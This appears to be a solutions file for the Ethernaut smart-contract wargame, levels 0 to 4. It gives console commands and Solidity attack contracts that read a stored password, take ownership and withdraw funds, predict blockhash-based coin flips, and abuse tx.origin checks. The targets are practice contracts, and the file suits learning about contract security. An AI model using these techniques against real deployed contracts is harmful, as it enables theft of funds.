 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10

## Level 04

https://ethernaut.openzeppelin.com/level/4

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    constructor(address _address) {
        ITelephone(_address).changeOwner(msg.sender);
    }
}
```

